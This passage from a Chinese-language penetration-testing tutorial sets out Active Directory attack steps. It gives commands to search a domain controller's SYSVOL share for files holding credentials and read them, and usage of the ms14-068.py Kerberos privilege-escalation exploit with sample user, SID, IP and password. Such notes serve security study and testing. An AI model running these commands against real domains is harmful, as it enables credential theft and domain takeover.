 - 测试是否有访问权限

```
dir \\域控制器\sysvol
```
- 查找危险文件

```
dir \\域控制器\sysvol /s /a >sysvol.txt
```

- 查看危险文件内容

```
type \\域控制器\sysvol\文件名
```

- 脚本解密

### MS14-68 kerberos

 **可以参考我的另一篇文章**
 
 [IPC MS14068 Pth Ptt Ptk Kerberoating](https://syst1m.com/post/ipc-ms14068-pth-ptt-ptk-kerberoating/)

```
域用户获取sid whoami /user
```
```
本地用户获取sid  dsquery user –s 192.168.1.111 –u test\john –p Passw0rd. –name john* | dsget user –s 192.168.1.111 –u test\john –p Passw0rd. –sid 
```
```
 ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>
 ms14-068.py -u john@test.ad -s S-1-5-21-1729408145-521730468-1409314830-1104 -d 192.168.1.111 -p Passw0rd.
```